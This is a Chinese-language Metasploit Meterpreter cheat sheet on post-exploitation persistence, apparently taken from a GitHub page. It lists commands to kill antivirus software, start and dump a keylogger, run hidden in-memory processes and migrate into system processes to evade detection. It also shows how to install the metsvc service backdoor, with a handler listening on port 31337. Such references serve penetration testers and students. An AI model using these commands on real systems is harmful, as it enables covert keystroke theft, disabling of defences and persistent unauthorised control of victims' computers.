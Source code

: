 
### 权限维持

**关闭防病毒软件**
```bash
run killav
```

**键盘记录**
```bash
keyscan_start   # 开启键盘记录功能
keyscan_dump    # 显示捕捉到的键盘记录信息
keyscan_stop    # 停止键盘记录功能
```

**执行程序**
```bash
execute -f <path> [options] # 在目标主机上执行 exe 文件
-H : 创建一个隐藏进程
-a : 传递给命令的参数
-i : 跟进程进行交互
-m : 从内存中执行
-t : 使用当前伪造的线程令牌运行进程
-s : 在给定会话中执行进程
```

**进程迁移**

当 meterpreter 单独作为一个进程运行时容易被发现,如果将它和系统经常运行的进程进行绑定,就能够实现持久化.
```bash
getpid          # 查看当前会话的进程 id
ps              # 查看目标运行的进程
migrate pid     # 绑定/迁移进程
```

**后门**

MSF 自带两种植入后门的方式

Meterpreter 的 shell 运行在内存中,目标重启就会失效,如果管理员给系统打上补丁,那么就没办法再次使用 exploit 获取权限,所以需要持久的后门对目标进行控制

- **metsvc 服务后门**

    原理：命令运行成功后会在 `C:\Users\用户名\AppData\Local\Temp` 目录下新建随机名称的文件夹,里面生成3个文件(metsvc.dll、metsvc-server.exe、metsvc.exe)同时会新建一个服务,显示名称为 Meterpreter,服务名称为 metsvc,启动类型为"自动",绑定在 31337 端口.

    ```bash
    # 自动化安装
    run metsvc -A

    use exploit/multi/handler
    set payload windows/metsvc_bind_tcp
    set rhost <lhost>
    set lport 31337
    exploit -j
    ```
